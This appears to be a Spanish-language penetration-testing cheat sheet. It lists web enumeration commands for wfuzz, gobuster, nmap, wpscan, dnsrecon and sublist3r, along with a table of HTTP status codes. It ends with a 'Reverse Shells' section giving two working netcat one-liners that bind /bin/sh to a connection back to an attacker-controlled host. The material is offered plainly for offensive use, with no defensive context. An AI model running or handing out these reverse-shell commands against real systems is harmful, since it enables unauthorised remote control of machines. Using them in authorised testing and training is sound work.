 ### Enumeración Web
**Wfuzz**
```
wfuzz -c -L -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://ip-site/FUZZ
```
```
wfuzz -c -L -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://ip-site/FUZZ.extension
```
```
100 = Continuar
200 = OK
201 = Creado
202 = Aceptado
204 = Sin contenido
301 = Permanentemente re dirigido o movido.
302 = Temporalmente re dirigido o movido.
400 = Solicitud incorrecta.
401 = Requiere autorización.
403 = Prohibido.
404 = No se encuentra.
500 = Error crítico en el servidor.
```
**Gobuster**
```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://ip-site
```

**Nmap Script**
```
nmap --script http-enum -p80 10.10.10.10 -oN EnumDirectory

```

**Wordpress**
```
wpscan --url http://10.10.10.10
```

**DNS**
```
dnsrecon -d google.com -n 10.10.10.10
```

**Lista Subdominios**
```
sublist3r -d target-host.com
```

### Reverse Shells
**Netcat**
```
nc -e /bin/sh 10.0.0.1 1233
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
